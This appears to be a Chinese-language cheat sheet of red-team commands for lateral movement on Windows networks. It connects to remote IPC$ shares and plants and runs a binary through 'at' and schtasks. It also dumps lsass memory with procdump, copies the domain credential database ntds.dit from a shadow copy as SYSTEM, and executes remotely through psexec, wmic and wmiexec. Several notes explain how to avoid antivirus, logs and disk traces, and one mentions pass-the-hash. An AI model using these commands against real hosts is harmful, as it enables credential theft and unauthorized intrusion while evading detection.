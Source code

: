 ```
---
开启共享，开445，139 port

	D:>net use \\192.168.1.254\c$ "pwd" /user:user     //连接192.168.1.254的IPC$共享，用unc路径
	如果是域用户 D:>net use \\192.168.1.254\c$ "pwd" /user:domain\user
	D:>copy srv.exe \\192.168.1.254\c$ //复制本地srv.exe到C根目录
	D:>net time \\192.168.1.254         //查时间
	D:>at　\\192.168.1.254 10:50 srv.exe //用at命令在10点50分启动srv.exe (这里360会拦截)
	D:>net use \\192.168.1.254\c$ /del 

### Schtasks
---
这里schtasks用着很舒服:

	schtasks /create /tn mytask /s ip /tr F:\Desktop.exe /sc minute /mo 1  /F 每分运行1次  普通权限即可， /s参数 远程ip 用于ipc连接后，远程主机执行 ，/F 表示有重名直接覆盖和创建或删除修改计划不再确认
	schtasks /create /tn mytask /tr F:\Desktop.exe /sc minute /mo 1 /ru system /F  管理员权限运行
如果程序有参数用引号"C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp"
schtasks /Create /TN test /SC DAILY /ST 00:09 /TR notepad.exe /RU SYSTEM
内置命令前加"cmd /c"

	schtasks /create /tn mytask /tr "cmd /c copy \\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy41\windows\NTDS\ntds.dit c:\ntds.dit 2>&1 > c:\windows\temp\1.txt" /sc minute /mo 1  /f /ru system /s 172.17.1.1

```
C:\jboss-5.1.0.GA\bin\>schtasks /create /tn mytask /s 172.17.1.1 /tr "C:\procdump64.exe -accepteula -ma lsass.exe lsass.dmp" /sc minute /mo 2
SUCCESS: The scheduled task "mytask" has successfully been created.

C:\jboss-5.1.0.GA\bin\>schtasks /Query /TN mytask /s 172.17.1.1
Folder: \
TaskName                                 Next Run Time          Status         
======================================== ====================== ===============
mytask                                   16-05-2018 07:50:00    Ready          

C:\jboss-5.1.0.GA\bin\>schtasks /Run /TN mytask /s 172.17.1.1

Folder: \
TaskName                                 Next Run Time          Status         
======================================== ====================== ===============
mytask                                   16-05-2018 07:52:00    Ready          

C:\jboss-5.1.0.GA\bin\>schtasks /Delete /TN mytask /F /s 172.17.1.1
SUCCESS: The scheduled task "mytask" was successfully deleted.
```
### psexec
---

psexec 不推荐用,创建服务并删除,产生日志，需要开共享

	psexec -r sanr \\192.168.1.101 -u user -p pass cmd -r 参数为创建的服务名 可能绕过检测

###  wmi(135)
---
wmi 如果防火墙开启无法连接，优点无日志，无落地(写入磁盘)，以下命令无回显，写入txt，type查看.

	wmic /node:192.168.1.101 /user:admin /password:@!123QWW
	process call create "cmd.exe /c whoami"

####  wmiexec
---

cscript.exe //nologo wmiexec.vbs /shell 192.168.1.1 username password 
如果没明文密码，pth后利用。
```